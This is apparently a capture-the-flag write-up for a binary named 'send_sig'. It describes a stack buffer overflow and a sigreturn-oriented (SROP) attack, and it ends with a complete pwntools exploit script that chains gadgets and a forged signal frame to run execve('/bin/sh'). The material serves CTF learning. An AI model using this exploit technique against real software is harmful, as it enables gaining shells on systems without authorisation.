 # Write up

Source code of binary is not given + No symbol. Can find **pop rax**, **syscall** gadget. 

```
ssize_t sub_4010B6()
{
  _BYTE buf[8]; // [rsp+8h] [rbp-8h] BYREF

  write(1, "Signal:", 7uLL);
  return read(0, buf, 0x400uLL);
}
```

# Primitives

Can find Buffer overflow, No PIE, canary => can overwrite ret. 

In pwntools, there are **Sigframe()** function to conveniently make signal frame. Can set register freely. 
```
frame = SigreturnFrame()
# read(0, bss, 0x1000)
frame.rax = 0        # SYS_read
frame.rsi = bss
frame.rdx = 0x1000
frame.rdi = 0
frame.rip = syscall
frame.rsp = bss
```

/bin/sh is given
```
.rodata:0000000000402000 aBinSh          db '/bin/sh',0 
```

So, we can just call execve('/bin/sh',0,0) with one syscall. 

# Exploit

```
from pwn import *

context.arch = 'x86_64'

p = process('./send_sig')

p.recvuntil(b'Signal:')

elf = ELF('./send_sig')

bss = elf.bss()

gad1 = 0x4010ae

gad2 = 0x4010b0

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = 0x402000
frame.rip = gad2
frame.rsp = bss + 0x500

payload = b'A' * 8 + b'B' * 8
payload += p64(gad1)
payload += p64(15)
payload += p64(gad2)
payload += bytes(frame)

p.send(payload)

p.interactive()
```

